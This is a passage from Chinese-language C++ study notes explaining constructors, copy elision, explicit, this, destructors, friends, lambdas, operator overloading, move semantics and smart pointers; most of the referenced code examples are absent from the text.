- 最后，控制权返回给函数调用者。
关于委托构造函数的一些其他细节
- 把初始化任务委托给其他构造函数的构造函数本身不能进行任何初始化。也就是说，一个构造函数要么自己初始化对象，要么委托给其他构造函数来初始化对象，不能两者兼有。
- 通常而言，我们会让参数较少的构造函数委托给参数较多的构造函数，这样我们就可以避免重复代码。
- 被委托的构造函数也可以把初始化任务委托给另一个构造函数，这样就形成了构造函数链。但是这有可能造成一个无限循环，因此我们应该避免这种情况。
有时候我们也可以用默认值来将多个构造函数合并为一个，这样我们就不需要使用委托构造函数了。
由于默认值只能从函数调用的最右边参数开始设置，因此我们应该在定义成员变量时先定义不带默认值的成员变量（使用者必须提供的参数），然后再定义带默认值的成员变量（使用者可选的参数）。
复制构造函数¶
复制构造函数（copy constructor）是一种特殊的构造函数，它用一个现有的对象来初始化一个新对象。复制构造函数执行后，新创建的对象将是原对象的一个副本。
如果我们没有定义复制构造函数，编译器将为我们生成一个 public 的隐式复制构造函数，这个复制构造函数将依次复制每个成员变量。
Tip
在前面我们提到过，C++ 中的 private 和 public 是以类为单位的，而不是以对象为单位的。因此，复制构造函数可以访问同类的其他对象的私有成员，以便于我们进行复制。
一般而言，除了复制之外，复制构造函数不应该有任何其他的副作用，因为在某些情况下，编译器可以优化复制构造函数，如果我们加上了额外的副作用，就可能无法进行优化。
- 一般而言，我们不需要自己去定义一个复制构造函数，使用隐式复制构造函数就足够了
- 如果我们需要自己定义一个复制构造函数，需要注意复制构造函数的参数是一个 const 引用
-
如果我们乐意，可以用
= default来显式声明一个默认复制构造函数 -
如果我们不希望一个类对象被复制，我们可以将复制构造函数声明为
delete
类的初始化
我们知道对于基本类型而言，有 6 种基本的初始化方式：
而上面这些初始化方式对于类类型也是有效的：
复制省略
考虑一个简单的程序
在上面变量 s 的初始化中，我们首先构建了一个用 5 来初始化的临时的 Something 对象，然后用这个临时对象来初始化 s，最后调用 s.print()。
在没有任何优化的情况下，上述程序的输出结果应该是
但由于编译器可以对重写代码以进行优化，我们可以很自然地猜想编译器是否可以优化掉不必要的对象副本，答案是肯定的。在本人的测试中，输出结果是
上面的优化称为复制省略（copy elision），它是 C++ 标准的一部分，允许编译器在某些情况下省略复制构造函数的调用。
这也是我们在编写复制构造函数时应该避免引入副作用的原因之一：当编译器把复制构造函数优化掉时，它的副作用将不会被执行。
强制复制省略（C++17）
在 C++17 之前，复制省略是编译器可选的一个优化；但在 C++17 中，在某些情况下即使我们已经明确告知编译器不要执行复制省略，复制省略也会被强制执行。
转换构造函数¶
我们知道，当调用函数时传入函数的参数类型和函数声明中的参数类型不匹配时，编译器会尝试进行隐式类型转换。考虑下面这个例子
Example
在这里我们给 printFoo 传入的参数是 int，但函数需要的是一个 Foo 对象，编译器将尝试把 int 转换为 Foo 对象。这种转换是通过 Foo 的构造函数 Foo(int x) 来完成的，它相当于把一个 int 参数转换为了一个 Foo 对象。这种可用于执行隐式转换的构造函数称为转换构造函数（converting constructor）。
有时候我们不希望一个函数只能调用一个类对象而不能发生隐式类型转换，这时我们可以在构造函数前面加上 explicit 关键字，这样这个构造函数就不能用于隐式类型转换了。
Example
在这里我们调用print(5)时，Dollars(int)转换构造函数将会把 5 转换为一个 Dollars 对象，然后传递给 print 函数。这段程序的输出结果是 $5。
给这个例子中的构造函数加上 explicit 关键字后，编译器将不再允许隐式类型转换，这时我们必须显式地给函数传入一个 Dollars 对象。
- explicit 构造函数不能用于复制初始化或复制列表初始化
- explicit 构造函数不能用于进行隐式转换（因为这实际上会使用复制初始化或复制列表初始化）
何时使用 explicit 关键字
- 一般情况下，任何接受单个参数的构造函数都应该是
explicit的，包括参数列表只有一个参数的构造函数和有多个参数但其他参数都有默认值的构造函数。 - 不需要使复制构造函数和移动构造函数 explicit，因为它们通常不会执行类型转换。
this 关键字¶
在每一个成员函数内部，都隐含着一个关键字 this，它是一个 const 指针，隐式地保存着当前正在被操作的对象的地址。
this 是被如何设置的¶
考虑一个简单的类
在这里我们并没有使用 this 关键字，但对于 print() 函数而言，下面两种写法是完全相同的，区别仅在于一个显式地使用了 this 关键字，而另一个没有。
当我们进行函数调用 simple.setID(2); 时，看起来我们只传入了一个参数，但实际上编译器会把这个函数重写为
除此之外，编译器还会把函数的实现重写为
Tip
在我的笔记中，你会发现大部分时候我都没有使用 this 指针，一般而言，在函数参数和成员变量具有相同的名称时，this-> 可以用于区分两者。但因为我通常会使用 m_ 前缀来区分成员变量，因此我很少使用 this->。
函数返回 *this¶
有时，让成员函数把正在调用的对象作为返回值返回相当有用，因为这允许我们把多个成员函数“链接”在一起，这样我们就可以在一个表达式中调用多个成员函数。这被称为函数链（function chaining），或方法链（method chaining）。
考虑下面这个类 Calc 的定义
如果我们想要先加 5，再减 3，然后乘以 4，就必须
但如果我们让每个成员函数都按引用返回 *this，就可以把这三个操作链接起来
只需要一个表达式就可以完成这三个操作
把类重置回默认状态
如果我们定义的类有一个默认构造函数，那么有时候我们有把类变成默认状态的需要，这时候就可以定义一个 reset 成员函数，
这样我们就可以在链式调用中插入 reset 函数
Info
- 对于非 const 成员函数而言，
this是一个指向非 const 对象的 const 指针：this不能指向其他对象，但可以通过this来修改对象的值。 - 对于 const 成员函数而言，
this是一个指向 const 对象的 const 指针：this不能指向其他对象，也不能通过this来修改对象的值。
析构函数¶
构造函数是在创建一个非聚合的类类型对象时用于初始化成员变量，并执行一些其他设置任务的特殊的成员函数。与之相对的是析构函数（destructor），它是在对象被销毁时执行的特殊成员函数。
当一个非聚合的类类型对象将要被销毁时，析构函数将会被自动调用，它的任务是在对象被销毁前执行一些必要的清理工作。
析构函数的命名规则
析构函数也有自己特定的命名规则
- 析构函数的名称必须是波浪号（tilde）
~后面跟着类名（也可以理解为构造函数名的前面加上一个波浪号） - 析构函数没有参数，也没有返回值
- 一个类只能有一个析构函数
- 通常而言，我们不应该显式地调用析构函数，因为这可能会导致清理工作被多次执行，从而导致未定义行为
- 析构函数可以安全地调用其他成员函数，因为直到析构函数执行完毕后对象才会被销毁
一个析构函数的简单例子
这段程序的输出结果是
Tip
如果一个类没有定义析构函数，编译器将为它生成一个隐式析构函数，这个析构函数的函数体是空的，也就是说，它不会执行任何清理工作，相当于一个占位符。
如果一个类不需要在被销毁时进行任何清理工作，我们可以不定义析构函数，让编译器为我们生成一个隐式析构函数。
使用析构函数释放资源
这段程序的输出结果是
这个例子中我们在构造函数中使用 new 关键字为 m_array 动态分配了一块内存，假如我们没有使用 delete[] 来手动释放这块内存的话，当对象被销毁时，这块内存将永远无法被释放，将产生内存泄漏。
而我们通过在析构函数中使用 delete[] 来释放这块内存，解决了这个隐患。
- 如果我们的类对象持有资源（如内存、文件句柄、数据库句柄等），我们通常需要手动释放这些资源，在析构函数中释放资源是一个很好的选择。
友元函数和友元类¶
在类的定义中，我们可以使用 friend 关键字来告诉编译器现在其他的类或函数是当前这个类的友元。在 C++ 中，友元（friend）是一种访问控制机制，它授予一个类或函数访问另一个类的私有（private）或受保护（protected）成员的权限。
- 友元声明不受访问控制权限的限制，因此可以出现在类的任何一个位置。
友谊是魔法
考虑我们已经拥有了一个由于管理某些数据的储存类，现在我们希望也能够展示这些数据，我们可以直接在现有的储存类上添加一些展示数据的函数，但这样会让类的接口变得相当复杂；我们也可以额外创建一个展示类来展示数据，但显示类无法访问储存类的私有成员。
结合上面的分析，我们希望的是展示类能够在特定情况下无视储存类的访问控制权限，这时我们就可以让展示类成为储存类的友元，这样它就能无阻地直接访问储存类的所有成员，以便于展示数据。
友元非成员函数¶
友元函数是可以访问特定类的私有和受保护成员的函数（可能是成员函数或非成员函数）。我们可以在类的定义中使用 friend 关键字来声明一个友元函数，以告知编译器这个函数是当前类的友元。
Example
由于 print() 是一个非成员函数（没有隐式对象），因此我们必须显式地传入一个 Accumulator 对象。
多重友元
一个函数可以同时成为多个类的友元，例如下面这个例子
- 这里的
printWeather()函数同时是Temperature和Humidity的友元，因此它可以访问这两个类的私有成员。 - 注意到在这个例子的顶部有一个类
Humidity的前向声明，这是因为printWeather()出现在Humidity的完整定义之前，如果我们没有前向声明会使编译器在Temperature类中对函数进行解析时找不到Humidity类。
从可维护性的角度来看，友元函数在可能的情况下最好使用类接口来访问类的私有成员，而非直接访问。这是因为一个类可能有多个友元函数，如果它们全都是直接访问类的私有成员，那么当类的私有成员发生变化时，我们就需要修改所有的友元函数，这会增加代码的维护成本。
友元类¶
友元类（friend class）是一个可以任意访问其他类的任何成员的类。
Example
这段程序的输出结果是
-
友元不是互反的：如果类 A 是类 B 的友元，那么类 B 不一定是类 A 的友元。
- 如果我们希望类 B 也是类 A 的友元，我们需要在类 B 的定义中再次使用
friend关键字来声明类 A 是类 B 的友元。
- 如果我们希望类 B 也是类 A 的友元，我们需要在类 B 的定义中再次使用
-
友元关系不具有传递性：即使类 A 是类 B 的友元，类 B 是类 C 的友元，但是这不代表类 A 不一定是类 C 的友元。
- 如果我们希望类 A 也是类 C 的友元，我们需要在类 C 的定义中再次使用
friend关键字来声明类 A 是类 C 的友元。
- 如果我们希望类 A 也是类 C 的友元，我们需要在类 C 的定义中再次使用
-
把一个类声明为友元类实际上也相当于“被友元”的类的一个前向声明，因此我们可以在友元类的定义之前直接把其声明为友元类。
- 比如在上面的例子中 ，在
Storage类中进行友元类声明时，我们并没有对Display类进行前向声明。
- 比如在上面的例子中 ，在
友元成员函数¶
我们也可以仅让单个成员函数成为友元，而不是让整个类成为友元。但是我们并不能直接把上面的代码修改为：
这是因为在使单个成员函数成为友元时，编译器必须看到完整的友元成员函数的定义，而不仅仅是声明。这里，我们将在试图让 Display::displayStorage() 成为 Storage 的友元时发生编译错误。
对上面这个问题的一个解决办法是把 Display 类的定义放在 Storage 类的定义之前。但是这么做我们又会遇到一个问题：成员函数 Display::displayStorage() 使用 Storage 类的引用作为参数，这时编译器还不知道 Storage 类的完整定义。为了解决这个新的问题，我们需要在 Display 类的定义之前对 Storage 类进行前向声明。
最终修改后的程序变为
Example
Storage的前向声明满足了Display类的友元成员函数displayStorage()的要求Display类的完整定义满足了Storage把Display::displayStorage()声明为友元的要求Storage类的完整定义满足了Display::displayStorage()在进行完整定义时的要求
这看起来很复杂，但一般而言仅在把所有内容都写到同一个文件中时我们才会这么做。如果我们把每个类的定义放到不同的头文件中，把成员函数的完整定义都写到 .cpp 文件中，并且通过 #include 来包含头文件，我们就不需要考虑类和成员函数的定义顺序问题了
lambda 表达式¶
在 C++ 中，lambda 表达式（lambda expression，也称 lambda 或 closure）是一种可以在一个函数内中定义匿名函数的方法，它通常用于在函数内部定义一个简单的函数，而不必专门在全局作用域中定义一个可能只会用到一次的函数。
lambda 表达式的语法相对而言比较奇怪：
- 如果不需要捕获字句，那么捕获子句可以留空，直接使用
[]。 - 如果不需要参数，那么参数列表可以留空，直接使用
()，甚至连()都可以省略。 - 返回类型可以省略，如果省略了，那么就相当于使用
auto关键字来推断返回类型。
Tip
lambda 可被视作一个匿名函数对象，我们不需要为它命名。
简单引入¶
一个最最简单的 lambda 定义是
虽然 lambda 函数很方便，但在同一行中书写 lambda 表达式和调用它的代码可能会让代码变得难以阅读。因此，我们用 lambda 定义去初始化一个 lambda 变量，然后使用这个变量来调用 lambda 函数。
使用 lambda 变量
在下面这个代码片段中，我们使用 std::all_of 来检查数组中的元素是否都是偶数
我们可以把它重写为可读性更好的形式
上例中 lambda 变量 isEven 的类型是什么？
事实上，lambda 并没有我们可以明确使用的类型。当我们编写 lambda 时，编译器将会为这个 lambda 生成一个特定的不暴露于我们的类型。我们可以使用 auto 关键字来推断这个类型，但我们不能显式地指定这个类型。
lambda 实质上并不是函数，它们是一种被称为函子（functor）的特殊对象，函子拥有被重载过的函数调用运算符 operator()，这使得 lambda 可以像函数那样被调用。
尽管我们无法知道 lambda 的类型，但有几种方法可以用于存储定义后的 lambda：
- 如果 lambda 的捕获子句为空，那么我们可以直接使用常规的函数指针来存储 lambda
- 无论 lambda 是否具有非空的捕获子句，我们都可以使用 auto 关键字或 std::function 来存储 lambda
Example
将 lambda 作为参数传递给函数
lambda 表达式可以作为函数的参数传递，通常有 4 中方法
- case 1 中，函数
repeat1接受一个std::function参数，这个参数可以接受任何可调用对象，包括函数指针、函数对象、成员函数指针、lambda 表达式等。但当我们向它传递一个 lambda 表达式时，会发生隐式类型转换，有一定额外开销。 - case 2 中，我们使用类型模板参数为
T的函数模板，这样做的缺点在于T的参数和返回类型并不明显。 - case 3 是在 C++20 中引入的简化函数模板语法，它可以自动推断模板参数类型。
- case 4 使用函数指针，但这种方法只适用于没有捕获子句的 lambda 表达式。
Abstract
- 使用 auto 来把 lambda 表达式存储在变量中
-
当我们把 lambda 作为参数传递给函数时
- 如果支持 C++20，就使用 auto 来推导函数参数类型
- 否则，就使用类型模板参数或
std::function参数，仅在捕获子句为空时才考虑使用函数指针
constexpr lambda
从 C++17 开始，如果下面的要求的都得到了满足，那么 lambda 就是隐式的 constexpr：
- lambda 表达式没有捕获子句，或者所有的捕获都是 constexpr 的
- lambda 函数体内调用的所有函数都是 constexpr 的
捕获子句¶
捕获子句可以使 lambda 表达式访问函数外部的变量。捕获子句有两种形式：
- 值捕获（value capture）：捕获的变量的值在 lambda 表达式创建时被复制，然后在 lambda 表达式内部使用这个复制的值创建一个同名的内部变量。lambda 表达式内部的变量不会影响外部的变量。
- 引用捕获（reference capture）：捕获的变量的引用在 lambda 表达式创建时被保存，然后在 lambda 表达式内部使用这个引用来访问外部变量。lambda 表达式可以通过这个引用来修改外部变量。
Tip
传递进 lambda 表达式的捕获变量在某种程度上类似于函数参数，但是它们不是函数参数，而是 lambda 表达式的一部分。
在默认情况下，lambda 表达式不能修改值捕获的变量，下面这段程序就无法通过编译，因为value 在 lambda1 内部会被视为 const 的对象。与通过值捕获得到的变量不同，通过引用捕获得到的变量可以被修改，除非它捕获的变量是 const 的。
如果我们希望修改被捕获的变量，我们可以把 lambda 标记为 mutable
如果我们想要捕获多个变量，用逗号分隔即可
默认捕获¶
手动把所有需要使用的变量都完整地写进捕获子句中很容易出错，尤其是 lambda 被修改时，我们可能会忘记添加或删除捕获的变量。为此，我们可以使用默认捕获（default capture，or capture-default）来让编译器为我们自动生成需要捕获变量列表。
[=]：以值捕获的方式捕获所有 lambda 中使用到的外部变量[&]：以引用捕获的方式捕获所有 lambda 中使用到的外部变量
默认捕获可以和普通的手动捕获一起使用，但是需要注意的是，如果一个变量不能被多次捕获，并且默认捕获必须作为捕获列表的第一个元素。
在捕获子句中定义新变量
如果我们希望捕获到一个被轻微修改后的外部变量，或声明一个仅在 lambda 内可见的新变量，我们可以在捕获子句中不指定其类型地定义一个新变量。
我们最好仅在变量的类型很明显并且它的定义很简短时才考虑在捕获子句中定义新变量，否则最好在 lambda 之外定义一个变量，然后捕获它。
运算符重载¶
简单的运算符重载¶
最基础的运算符重载非常简单
- 使用运算符名称作为函数名称来定义一个函数
- 从左到右为每个操作数添加适当的类型定义，这些参数至少有一个是用户定义的类型（包括枚举类型、类类型等）
- 将返回类型设置为相应的有意义的类型
- 使用 return 语句返回操作的结果
我们首先回顾一下运算符 << 用于输出时的工作原理：考虑一个简单的表达式 std::cout << 5，std::cout 具有类型std::ostream，而 5 是 int 类型的字面量。计算这个表达式时，编译器首先查找可以处理std::ostream和int类型的重载函数并调用它。在这个函数内部，std::cout 用于将右操作数x输出到控制台，然后operator<<函数返回其左操作数（在本例中为std::cout），以便可以对operator<<进行后续的调用。
下面我们考虑一个自定义的枚举类型 Color
如果我们直接使用 std::cout << black，得到的输出结果将是 0，因为这时候编译器会把枚举值隐式转换为整数。如果我们希望输出结果是 black 而非 0，就需要重载运算符 <<。
这段程序的输出结果是
重载 operator>> 以输入枚举类型
std::cin具有类型的std::istream，因此我们使用std::istream&作为左参数的类型和返回值，而不是std::ostream&。- pet 参数是一个非 const 引用，这允许我们在提取结果匹配的情况下用
operator>>给 pet 赋值。 - 在函数内部，我们使用
operator>>输入std::string，如果用户输入的值与我们预先设置好的宠物种类匹配，那么我们就可以为 pet 分配适当的值并返回左操作数 in。 - 如果用户没有输入有效的宠物种类，那么我们就通过将
std::cin置于“失败模式”来处理这种情况。
运算符重载的限制
- 少部分运算符不允许重载：条件选择运算符（
?:）、作用域解析运算符（::）、成员选择运算符（.和.*）、sizeof 运算符、typeid、类型转换运算符（static_cast、dynamic_cast、const_cast、reinterpret_cast）。 - 只能重载现有的运算符，不能创建新的运算符或重命名现有的运算符。
- 重载的运算符必须至少有一个用户定义的类型作为操作数。
- 操作符的操作数数量不可被改变
- 不能改变操作符的优先级或结合性
Note
- 不修改其操作数的运算符（例如算术运算符）通常按值返回结果
- 修改其最左侧操作数的运算符（例如赋值运算符）通常返回最左侧操作数的引用
使用友元函数重载操作符¶
考虑一个简单的类，我们可以使用友元函数来重载操作符+
如果我们希望 Cent 类的对象可以与整数相加，我们也可以用类似的方式重载 + 运算符。但是需要注意的是 Cents(4) + 6 和 6 + Cents(4) 是不同的，前者调用 operate+(Cents, int)，后者调用 operate+(int, Cents)，我们需要对这两种情况分别进行重载。
值得一提的是，我们可以用其他经过重载后运算符来重载运算符，例如上面第二个形式我们可以写成
使用普通函数重载运算符¶
使用普通函数对我们的类进行运算符重载实际上和友元函数没有太大区别，唯一的区别在于普通函数不能直接访问类的 private 和 protected 成员，需要通过 public 的访问函数来访问。
Best practice
在不添加其他额外的函数的情况下，最好通过普通函数对运算符进行重载，而非友元函数。
使用成员函数重载运算符¶
使用成员函数重载运算符和使用友元函数也很类似，但区别在于：
- 被重载的运算符必须作为左操作数的成员函数
- 左操作数是调用运算符的对象，是隐式的
*this指针 - 其他操作数作为参数传递给成员函数
- 在友元函数的版本中，表达式
cents1 + 2调用的是operator+(cents1, 2) - 而在成员函数的版本中，表达式
cents1 + 2调用的是cents1.operator+(2)，考虑到成员函数隐式地传入了this指针，这个调用实际上是operator+(¢s1, 2)
Warning
-
并非所有运算符都可以作为友元函数重载
- 例如赋值运算符
=、下标运算符[]、函数调用运算符()和成员访问运算符->等必须作为成员函数重载。
- 例如赋值运算符
-
并非所有运算符都可以作为成员函数重载
- 例如运算符
<<和>>不能作为成员函数重载，因为它们的左操作数分别是std::ostream和std::istream，而成员函数重载的运算符要求左操作数一定是我们自定义的类。
- 例如运算符
何时用何种形式重载运算符？
- 如果需要重载
=、[]、()或->等运算符，必须使用成员函数重载 - 如果需要重载一元运算符（例如
+、-、++、--等），通常使用成员函数重载 - 如果要重载一个不会修改其左操作数的运算符（例如
+等），使用普通函数（首选）或友元函数重载。 - 如果要重载一个修改其左操作数的运算符，但我们无法把它添加为左操作数的成员函数时（例如
<<等），使用普通函数（首选）或友元函数重载。 - 如果要重载一个修改其左操作数的运算符，并且我们可以把它添加为左操作数的成员函数时（例如
+=等），使用成员函数重载。
重载 ++ 和 -- 运算符¶
由于递增和递减运算符 ++ 和 -- 有前缀和后缀两种形式，因此我们需要重载两个版本的运算符。因为它们都是一元运算符，并且会修改操作数，所以我们最好将其作为成员函数重载。
前缀递增和递减¶
我们实现一个简单的类，用于存储一位的十进制数字，然后重载前缀递增和递减运算符。
code
需要注意的是我们对前缀递增和递减运算符的重载函数不需要任何参数（隐式传入了 *this），并且返回的是当前隐式对象的引用，这是因为我们希望能够把多个操作链接在一起
后缀递增和递减¶
当我们对后缀递增和递减运算符进行重载时，我们需要添加一个额外的 int 参数，以便告诉编译器我们是在重载后缀运算符。
code
由于后缀递增和递减运算符返回的是操作数的旧值，我们需要在函数内部先用一个临时变量保存当前对象的状态，再对当前对象进行操作，最后返回临时变量。
重载括号运算符 ()¶
括号运算符的特殊之处在于它可以重载多种不同的参数类型，也可以重载不同的参数数量。
- 括号运算符必须作为成员函数重载
- 在非面对对象的 C++ 中，
()用于调用一个函数；但是在面向对象的语境中，()只是一个普通的运算符，就和其他运算符一样会调用类的一个成员函数（名为operator()）。
现在我们考虑一个简单的类 Matrix，我们希望能够通过 () 运算符来访问矩阵的元素，例如 matrix(1, 2)。
code
这里我们重载了三种不同的括号运算符：
- 第一个是非 const 的版本，返回一个引用，用于修改矩阵的元素
- 第二个是 const 的版本，返回一个常量，仅可用于访问矩阵的元素
- 第三个是不带参数的版本，用于重置矩阵的所有元素为 0.0
这段程序的输出结果是 0。
因为括号运算符非常灵活，有时候我们并不能确定在某些参数列表的情况下它会做出什么样的操作，因此在使用括号运算符时需要格外小心。例如上面的例子中，参数列表为空时括号运算符的行为是清空矩阵，我们最好用一个名称更为明确的函数来实现这个功能，例如 clear() 或 reset()。
智能指针和移动语义¶
简单概念和引入¶
智能指针¶
当我们给一个指针动态分配内存时，我们需要在不再使用这个指针时释放这块内存，但在实际的代码中，常常会因为各种原因导致忘记释放内存，从而造成内存泄漏。例如
出现上述问题的本质原因是指针变量没有一个能自我清理的固有机制。为了解决这个问题，我们可以考虑使用一个类来负责管理这个指针，让这个类“持有”这个指针，当这个类的生命周期结束时，利用析构函数来释放这个指针。
Auto_ptr1
这个程序将会输出
由于 res 对象在 main 函数结束时被销毁，Auto_ptr1 类的析构函数会被调用，从而释放 Resource 指针所指向的内存。
像我们上面实现的类被称为智能指针（smart pointer），它是一个复合类，旨在管理动态分配的内存，使得指针的生命周期和指向的资源的生命周期保持一致。
dumb pointer
与智能指针相对应的是，我们通常使用的指针有时会被称为 dump pointer（愚蠢指针），因为它们没有自我清理的能力。
但是我们刚刚实现的 Auto_ptr1 存在一个巨大的问题：当它被作为复制初始化的初始化器时，会使得复制出来的 Auto_ptr1 也指向同一块内存，这样当其中一个 Auto_ptr1 被销毁时，会导致另一个 Auto_ptr1 指向的内存被释放，从而导致内存泄漏。
Example
下面两种情况都会导致两个指针指向同一块内存，当其中一个对象被销毁时，另一个对象指向的内存也会被释放。如果我们通过未被销毁的 Auto_ptr1 对象来使用这块内存，就会导致未定义行为
当我们使用 res1 去初始化 res2 时，res1 和 res2 指向同一块内存。当 res1 和 res2 被销毁时，这块内存会被释放两次，这会导致未定义行为。
这段程序中，res1 将按值复制到参数 res 中，因此 res1.m_ptr 和 res.m_ptr 将保存相同的地址。当 passByValue 函数返回时，res 被销毁，从而导致 res.m_ptr 指向的内存被释放。但是 res1 仍然持有这块内存的指针，当 res1 被销毁时，这块内存会被释放第二次，这也会导致未定义行为。
为了解决这个问题，我们可以很快联想到一种方法：重载赋值运算符和复制构造函数，使得当一个 Auto_ptr1 对象被复制时，会创建一个深度拷贝的对象，而不是简单地复制指针。但是这么做的开销将是很大的，因为我们希望避免仅为了复制一个对象而动态分配内存。
那么我们该怎么办呢？这就是引入移动语义的时候了。
移动语义¶
移动语义（move semantics）意味着类对象将把一些资源的所有权转移给另一个类对象，而非进行拷贝。在上面这个问题中，就是把指针的所有权从源对象（source）转一个目标对象（destination）。
我们对 Auto_ptr1 稍作修改就可以得到实现了上述效果的 Auto_ptr2
Auto_ptr2
这段程序将输出
Tip
delete 一个 nullptr 不会发生任何事情，因此不需要担心会导致什么意外后果。
std::auto_ptr
在 C++98 中引入，并在 C++17 中删除的 std::auto_ptr 是 C++ 对于标准化的智能指针的首次尝试，它实现移动语义的方式和我们的 Auto_ptr2 相当类似，也和我们的 Auto_ptr2 一样具有许多问题。
std::auto_ptr通过复制构造函数和赋值运算符来实现移动语义，按值传递将会导致资源的所有权转移到函数的参数变量上，当函数返回时函数内的变量会被销毁，从而使这些资源被释放——这些资源不在能被原来的std::auto_ptr对象访问。std::auto_ptr始终使用非数组的delete来释放资源，这意味着std::auto_ptr无法正确管理一个动态数组，并且它也不会阻止我们传入一个动态数组，从而引发内存泄漏。- C++ 标准库中的许多类（包括大多数容器）对于
std::auto_ptr的行为并不友好，因为这些标准库假设当他们复制一个对象时，发生的是 copy 而非 move。
综合以上原因，std::auto_ptr 在 C++11 中被弃用，在 C++17 中被移除。
在 C++11 中，std::auto_ptr 已被其他的支持 move-aware（移动感知）的智能指针所取代：std::unique_ptr、std::shared_ptr 和 std::weak_ptr。
移动构造函数和移动赋值运算符¶
C++11 中引入了移动构造函数和移动赋值运算符，用于实现移动语义。复制构造函数和赋值运算符用于将一个对象的副本制成另一个对象，而移动构造函数和移动赋值运算符用于把一个对象的资源所有权转移给另一个对象。
定义移动构造函数和移动赋值运算符的语法和定义复制构造函数和赋值运算符的语法非常相似，后两者使用的是 const 左值引用，而前两者使用的是非 const 右值引用。
code
Tip
移动构造函数和移动赋值运算符通常会在函数名后面加上 noexcept 说明符，以告知编译器这两个函数不会抛出异常。这样做的好处是，当我们在使用这两个函数时，编译器可以对这两个函数进行优化，从而提高程序的性能。
隐式移动构造函数和移动赋值运算符
当下列条件全部满足时，编译器将会自动生成一个隐式的移动构造函数和移动赋值运算符：
- 没有用户声明的复制构造函数、复制赋值运算符
- 没有用户声明的移动构造函数、移动赋值运算符
- 没有用户声明的析构函数
需要注意的是，隐式移动构造函数和移动赋值运算符对指针进行操作时，指挥进行复制，而不是移动。因此如果我们希望移动指针成员，需要自行定义移动构造函数和移动赋值运算符。
The rule of five
复制构造函数、复制赋值运算符、移动构造函数、移动赋值运算符、析构函数被称为五个特殊成员函数，它们通常一起出现，因此被称为五法则（rule of five）。
当我们需要自行定义它们中的任何一个时，通常也需要定义其他四个。
我们可以使用 = delete 关键字来禁用移动构造函数和移动赋值运算符，这样我们就可以确保我们的类不会被移动。虽然这看起来能为我们提供一个可复制但不可被移动的对象，但很遗憾，被 delete 的函数仍然会被视为已声明的函数，也会参与重载解析，这可能会导致一些问题。
比如在这个例子中，在函数 getJoe() 中，我们试图返回一个 Name 临时对象，编译器解析后决定通过移动语义返回这个临时对象，但是因为 Name 的移动构造函数被删除了，无法进行移动，因此编译器报错。
std::move¶
std::move 是 C++11 引入的一个标准库函数，位于 <utility> 中，它把传入的参数转换为一个右值引用，从而可以调用移动语义。
通过 std::move 调用移动语义
这段程序将输出
我们还可以在向一个容器填充左值元素时使用 std::move。在下面的程序中，我们首先使用复制语义添加一个元素，然后再使用移动语义给 vector 添加一个元素。
在我的 wsl 上，这个程序的输出是
- 调用复制语义时，我们通过
push_back将str复制到了 vector 中，因此str保持不变。 - 调用移动语义时，我们通过
push_back将str移动到了 vector 中，但是这个操作会使得str的值变为不确定的值，在我的测试中，str变为空字符串。
问题在于，当我们通过 std::move 将一个左值对象的值移动之后，它还会剩下什么呢？C++ 标准规定，当一个对象的值被移动之后，这个对象的状态是有效但不确定的。
The C++ standard library guarantees that moved-from objects are in a valid but unspecified state. The value of an object is not specified except that the object’s invariants are met and operations on the object behave as specified for its type
For all objects and types you use in the C++ standard library you should ensure that moved-from objects also support all requirements of the functions called
因此当我们想要使用一个值已经被移动走的对象时，我们可以调用这个不依赖于这个对象当前值的任何函数（例如 set()、reset()、clear() 等），我们也可以使用 empty() 等函数测试这个对象的当前状态。但是我们应该避免使用 front()、back()、pop_back() 等函数，因为这些函数依赖于对象的当前值。
Key-point
当一个对象的值被移动后，我们不应对这个对象的值有任何假设（包括假设它的值保留不变和假设它的值变为某个特定值），我们只能知道这个对象的状态是有效的，但是具体的值是不确定的。
std::unique_ptr¶
std::unique_ptr 是 C++11 中 std::auto_ptr 的一个完全替代方案，位于 <memory> 头文件中，它应用于未被多个对象共享的动态分配的对象，也就是说它应该完全拥有这块内存，不能和其他类共享。
- std::unique_ptr 具有重载过后的
*和->运算符，前者返回它正在管理的资源，后者返回这个资源的指针。 - std::unique_ptr 并不总是在管理一个对象——它可以因默认初始化或传入 nullptr 而是空的，也可以因为管理的资源被移动给另一个 std::unique_ptr 而是空的。
Example
这段程序将输出
与 std::auto_ptr 不同的是，std::unique_ptr 知道何时使用 delete，何时使用 delete[]，因此它可以正确地管理动态数组。但相较于用 std::unique_ptr 来管理动态数组，使用 std::vector 或 std::array 总是更好的选择。
std::make_unique¶
C++14 具有一个名为 std::make_unique 的函数，它可以用来创建一个 std::unique_ptr 对象。
Example
输出为
一般而言，更建议使用 std::make_unique 来创建 std::unique_ptr 对象，除了实际使用时更加简洁外，它还可以避免一些潜在的内存泄漏问题。
std::unique_ptr 的实际应用¶
- 按值返回 std::unique_ptr 通常比直接返回原始指针更加安全，并且除非拥有什么特殊的理由，我们不应按指针或引用返回 std::unique_ptr。
- 按值传递 std::unique_ptr 会使得资源的所有权发生转移
-
如果我们想要从 std::unique_ptr 中获取一个原始指针，我们可以使用
get()成员函数，例如 -
当 std::unique_ptr 作为类的成员时，当这个类对象被销毁，std::unique_ptr 也会被销毁，从而释放它所管理的资源。
但是，如果类对象没有被正确销毁（例如它是动态分配的，并且没有正确地被 delete），那么这个 std::unique_ptr 也不会被销毁，从而导致资源泄漏。
std::shared_ptr¶
std::shared_ptr 和 std::unique_ptr 的不同之处在于它旨在处理多个智能指针共享同一个资源的情况。
std::shared_ptr 的内部通过一种计数机制来跟踪有多少个 std::shared_ptr 在共同指向同一个资源，至少有一个 std::shared_ptr 仍指向这个资源时，std::shared_ptr 的销毁不会导致这块内存的释放，仅当最后一个指向这块资源的 std::shared_ptr 被销毁时，资源才会被销毁。
Example
这段程序将输出
Warning
需要格外强调的是，我们利用第一个 shared pointer 初始化了第二个 shared pointer，这样才能保证资源不会在第一个 shared pointer 被销毁时被释放。
考虑另一个例子
Example
这段程序在输出以下内容后会崩溃（至少在我的机器上会）
第二个例子的区别在于，我们相互独立的创建了两个 std::shared_ptr，即使它们都指向同一块资源，但它们不知道彼此的存在，都认为自己是资源的唯一持有者。当 ptr2 被销毁时，它会释放资源，但是 ptr1 仍持有指向这块资源的指针，当 ptr1 也被销毁时，它会再次尝试释放资源，这会导致程序崩溃。
Best practice
如果我们需要让多个 std::shared_ptr 指向相同的资源，使用现有的 std::shared_ptr 来初始化新的 std::shared_ptr 是最好的选择。
std::make_shared
类似与 std::make_unique，C++14 还引入了 std::make_shared 函数，用于创建 std::shared_ptr 对象。
